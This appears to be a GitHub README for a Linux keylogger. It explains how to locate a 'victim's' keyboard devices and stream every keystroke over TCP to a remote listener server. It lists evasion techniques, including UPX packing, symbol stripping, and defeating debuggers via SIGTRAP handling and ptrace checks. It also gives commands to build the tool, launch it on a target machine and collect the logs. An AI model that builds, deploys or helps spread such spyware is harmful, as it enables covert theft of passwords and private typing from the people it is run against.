 # 4 k3yl0gg3r f0r r341 h4x0r5 !!1

![Diagram](./.github/diagram_keylogger.png)

## Credits

Made in collaboration with:
- [Adina C.](https://github.com/darksailormoonlight)
- [Nils H.](https://github.com/nilshammond)

## How can I write one of my own ?

There is many steps to do a project of the sort. First, you will need to find
the victim's keyboard of course ! For this, I invite you to check on your Linux
install the directory `/dev/input/by-path/` and you should see a symlink ending
with `kbd`. That's your keyboard. You can see that it points to an event in the
parent directory. You should be able to find this event using the `readlink()`
function. You can read my code in `logger/sources/get_keyboard.c` to check how
I did it. :)

You can also take into account that there might be multiple keyboards, because
the victim has a USB keyboard plugged in, for instance. To circonvent that, I
chose to store every file descriptor matching the description of a keyboard,
and use the `select` syscall to find one when I can read on one of them.
I invite you to read the `man` page of `select` for more information about this.

Once you have found the keyboard(s), and opened it (or them), you will to store
your logs somewhere, right ? For tests purposes, I just added the IP of a cheap
VPS in a `#define`, and set up the server part there. For the socket creation,
I used the TCP Protocol, and just used `connect` to connect to my distant server.
I did not do anything else, as I have not implemented any Remote-Access
functionnality, and it just sends data forever. I also set up a log file, in
`/tmp/` for testing purposes.

Now, let's go over the fun part: the logger in itself ! You will need to get a
`char` array containing all the keys that can be typed. It is defined in
`/usr/include/linux/input.h` on my machine, but it can be different for you.
Next, you will use `select` to check when you can read new keys, or just call
`read` until the return value is -1, if you only have one keyboard.

At this point, you have your basic keylogger, it is absolutely not obfuscated,
does not handle SHIFT keys, but this is a good base. Here are a few ideas of
things I implemented, or want to implement:

### Obfuscation

- using fancy gcc flags such a `-s -static` to remove some symbols.
- using the UPX packer to compress your binary and remove unecessary section
headers (you will need to compile with `-static`)
- implementing a `sigaction` that renders `SIGTRAP` useless, so that debuggers
 like GDB do not work
- check if `ptrace` is currently called on your program, to disable debuggers
 like GDB
- create a simple program that will remove the strings from the compressed
binary indicating it has been packed with UPX

### Features

- support non-QWERTY keyboard layouts
- set up a wrapper around the time where you write logs, by nullifying `SIGPIPE`
when writing, so that it won't abruptly fail
- support SHIFT keys
- daemonize the program (see `./logger/sources/main.c`)
- basic XOR encryption (upgrade to SSL if possible)

## How do I use the keylogger ?

to compile, just launch the `compile_logger.sh` script like so:

```sh
# installing UPX packer for Ubuntu
sudo apt install -y upx && sh compile_logger.sh
```

To launch the keylogger, you will need access to the target machine,
and from there, start the program. You will have to pass the listener's IP like so:

```sh
./k3yl0gg3r ${SERVER_IP}
```

## Server

```sh
pip install -r requirements.txt && python3 ./server/TCP_handler.py
```

Output will be stored in `.logkeys.csv`
